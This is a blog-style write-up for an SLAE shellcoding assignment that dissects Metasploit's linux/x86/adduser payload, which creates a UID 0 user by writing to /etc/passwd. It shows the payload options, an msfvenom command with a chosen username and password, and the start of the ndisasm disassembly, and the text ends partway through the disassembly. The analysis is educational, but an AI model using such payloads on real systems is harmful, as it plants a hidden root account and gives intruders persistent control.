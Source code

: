 ```yaml
---
layout: post
title: Metasploit Linux x86 adduser Analysis
tags: [slae]
---
```


The next assignment for the SLAE is analyzing three different Metasploit linux x86 payloads. For the first one we'll be going through the `linux/x86/adduser` payload and seeing exactly how it works. 

Let's first dive in by checking the payload options. 

```
root@kali:~# msfvenom -p linux/x86/adduser --payload-options
Options for payload/linux/x86/adduser:


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create

Description:
  Create a new user with UID 0
~
~
```

We can see there are two required options, USER and PASS. Let's run `msfvenom` with our custom parameters and pipe the payload into `ndisasm` to check out the assembly. 

```
root@kali:~# msfvenom -p linux/x86/adduser USER=absolomb PASS=supersecret -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 95 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
```